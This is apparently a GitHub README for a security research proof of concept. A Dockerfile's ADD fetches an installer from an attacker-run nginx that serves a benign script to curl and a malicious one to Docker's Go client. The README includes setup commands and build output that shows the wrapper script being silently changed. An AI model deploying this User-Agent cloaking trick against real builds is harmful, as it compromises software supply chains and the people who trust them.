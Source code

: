 # Rosenmontag
Supply chain attack proof of concept using ADD in a Dockerfile and a malicious nginx

# What is this about

We all know that curl-pipe-sudo-bash is a thing. Many think it is a bad thing. But we all use Docker now so this is not a problem any more...  
In preparation for a talk I was thinking about ways to attack supply chains in Kubernetes or Docker environments. That was when I remembered when I learned that ADD in Dockerfiles lets you [copy files from remote URLs](https://docs.docker.com/engine/reference/builder/#add) (thanks to [Matthias](https://twitter.com/uchi_mata) and [Chris](https://www.twitter.com/brompwnie) for their [Blackhat-EU19 talk](https://www.blackhat.com/eu-19/briefings/schedule/#reverse-engineering-and-exploiting-builds-in-the-cloud-17287) ).

So I tried to combine the evading techniques for curl-pipe-sudo-bash scenarios with Dockerfile ADD and remote URIs.

# Walkthrough

## Attackers part

The attacker provides a very useful application as a Docker container as open source. They also control a webserver that serves an installer. Depending on the request the webserver will serve a legitimate or a malicious installer.

Get sources from Github
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Build the dockerfile of our malicous nginx and let it run
```
cd malicious-nginx/
docker build -t rosenmontag-nginx .
docker run -p 1337:80 -d rosenmontag-nginx
```

## Victims part

The victim wants to use a docker container by a third party. That is why they want to validate the Dockerfile and what is happening inside of it.

Get sources from Github (you should have done that already)
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Take a look at the Dockerfile
```
cd evil-dockerfile/
cat Dockerfile
```

The content is straightforward. The docker build will use the official debian buster image and adds a wrapper file that later is going to start the process in the container.
After that the maintainer (the attacker) decided to download an installer from a remote location and confuses the victim with "security reasons".

The victim, knowing that copying installer from remote URLs is bad, decides to take a look at the installer.
```
curl http://localhost:1337/installer.sh
```

The output is very simple( do not copy this)
```
#!/bin/sh

echo "Installing everything needed by our application"
sleep 2
echo "Done"
```

Reassured our victim builds the container.
```
docker build -t awesome-container-from-rosenmontag:1 .
```

The output will look like this
```
Sending build context to Docker daemon  3.072kB
Step 1/5 : FROM debian:buster-slim
 ---> 837fd7c8d960
Step 2/5 : COPY my_wrapper-script.sh /my_wrapper_script.sh
 ---> 1eadaf5c3365
Step 3/5 : ADD http://localhost:1337/installer.sh /tmp/installer.sh
Downloading [==================================================>]     412B/412B
 ---> 82e3b8007746
Step 4/5 : RUN chmod +x /tmp/installer.sh; /bin/sh /tmp/installer.sh
 ---> Running in 742a8abdbb0b
Definitely not running exploit code here
Adding files to your container
Changing wrapper script. Sorry :(
Done
Removing intermediate container 742a8abdbb0b
 ---> 43af7108c6ac
Step 5/5 : CMD /my_wrapper-script.sh
 ---> Running in c4d425313d37
Removing intermediate container c4d425313d37
 ---> a377b993eca5
Successfully built a377b993eca5
Successfully tagged awesome-container-from-rosenmontag:1
```

As you can see the malicious scriptechos debug output to visualize where the attack happend.  
The resulting image now differs from the expectation of the victim. The attacker added additional files to the image and changed the wrapper. They would be able to add a backdoor too.

# Explanation of the attack

The malicious nginx config has a map that checks if the User-Agent is set to something like "Go-http-client". I assume that most people checking the content of the installer would use curl, wget or a browser to verify that the installer itself is not malicious. Docker build uses a go library to get the installer from the remote url. The malicious nginx than just serves a different installer.sh file.

# How can I defend against attacks like this

This is a question for Future-Matthias ¯\_(ツ)_/¯

# This already has been done by $other_person

Awesome! I would love to read about that! 

# What does Rosenmontag mean

It is [Rosenmontag](https://en.wikipedia.org/wiki/Rosenmontag) today.
